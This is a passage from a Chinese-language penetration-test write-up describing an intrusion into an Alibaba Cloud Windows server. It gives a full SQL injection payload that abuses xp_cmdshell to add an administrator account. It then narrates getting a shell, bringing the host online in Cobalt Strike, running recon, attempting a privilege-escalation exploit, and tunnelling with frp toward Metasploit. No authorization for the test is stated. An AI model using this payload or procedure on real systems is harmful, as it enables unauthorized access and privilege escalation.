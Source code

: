 [![](https://xzfile.aliyuncs.com/media/upload/picture/20201228170034-25070882-48eb-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201228170034-25070882-48eb-1.png)  
顺便试试看直接用`xp_cmdshell`来加用户提权, 构造 payload(注意密码别设太简单, windows 系统貌似对密码强度有要求, 设太简单可能会失败)

```
userName=admin';exec xp_cmdshell 'net user cmdshell Test ZjZ0ErUwPcxRsgG8E3hL /add';exec master..xp_cmdshell 'net localgroup administrators Test /add';WAITFOR DELAY '0:0:15' --&password=123
```

nmap 扫了一下, 目标的 3389 是开着的,`mstsc.exe`直接连

没连上

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201228170100-34e1c62a-48eb-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201228170100-34e1c62a-48eb-1.png)

再跑一下 os-shell, 发现能跑绝对路径了, 好兆头

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201228170116-3e7ca42a-48eb-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201228170116-3e7ca42a-48eb-1.png)

成功弹出 shell

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201228170158-5797405a-48eb-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201228170158-5797405a-48eb-1.png)  
然后 CS 里啪的一下就上线了, 很快啊. 赶紧喊几个不讲武德的年轻人上线打牌

0x02: 信息收集
----------

`tasklist`看一下进程, 有阿里云盾, 有点难搞

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201228170226-6851318a-48eb-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201228170226-6851318a-48eb-1.png)  
`systeminfo`看看有什么

阿里云的服务器, 版本`windows server 2008 R2`打了 75 个补丁

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201228170241-71437488-48eb-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201228170241-71437488-48eb-1.png)  
`whoami`一下, 目测数据库被做过降权,`nt service`权限, 非常低

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201228170255-792703ae-48eb-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201228170255-792703ae-48eb-1.png)  
尝试传个`ms-16-032`的 exp 上去, 直接上传失败

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201228170307-80c6d9c2-48eb-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201228170307-80c6d9c2-48eb-1.png)  
到这里, CS 的作用已经极其有限了. CS 也就图一乐, 真渗透还得靠 MSF

0x03: 利用 frp 到 CS 服务端联动 MSF 攻击
------------------------------

在 CS 上开一个监听器

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201228170337-921770ba-48eb-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201228170337-921770ba-48eb-1.png)  
修改一下 frp 的配置文件

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201228170409-a550c1c2-48eb-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201228170409-a550c1c2-48eb-1.png)  
保存配置文件后在 frp 文件夹下启动 frp

